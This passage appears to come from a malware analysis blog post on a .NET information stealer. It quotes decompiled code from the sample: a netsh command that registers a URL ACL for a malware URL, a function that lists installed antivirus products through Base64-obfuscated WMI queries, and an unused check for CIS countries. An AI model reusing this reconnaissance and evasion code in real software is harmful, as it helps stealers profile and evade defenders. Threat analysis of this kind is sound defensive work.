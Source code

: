 It’ll build a command like:

```bash
netsh http add urlacl url=http://malware-url user=Everyone
```

The malware also gathers information about the system, with specific values being Base64 encoded:

```cs
  private static IEnumerable<string> GetAv()
        {
            List<string> list = new List<string>();
            try
            {
                ManagementObjectSearcher managementObjectSearcher = new ManagementObjectSearcher(Config.CroshkaENOT("cm9vdFxcU2VjdXJpdHlDZW50ZXIy"), Config.CroshkaENOT("U0VMRUNUICogRlJPTSBBbnRpdmlydXNQcm9kdWN0"));
                ManagementObjectCollection managementObjectCollection = managementObjectSearcher.Get();
                foreach (ManagementBaseObject managementBaseObject in managementObjectCollection)
                {
                    string item = managementBaseObject["displayName"].ToString();
                    list.Add(item);
                }
            }
            catch
            {
        }
    return list;
}
```

There is also a reference in the stealer to the list of CIS (Commonwealth of Independent States) countries mentioned earlier in the blog, though the strings in this list aren’t used anywhere. A working theory is that the user did not configure `AntiCIS` for this particular sample, as we could find no further reference in the binary as to where this list is used.

```cs
        public static bool emojiu()
        {
            List<string> list = new List<string>
            {
                "Armenia",
                "Azerbaijan",
                "Belarus",
                "Kazakhstan",
                "Kyrgyzstan",
                "Moldova",
                "Tajikistan",
                "Uzbekistan",
                "Russia"
            };
            list.Sort();
            foreach (string value in list)
            {
                bool flag = Config.Bauntidddddddddddd.Contains(value);
                if (flag)
                {
                    return true;
                }
            }
            return false;
        }
```
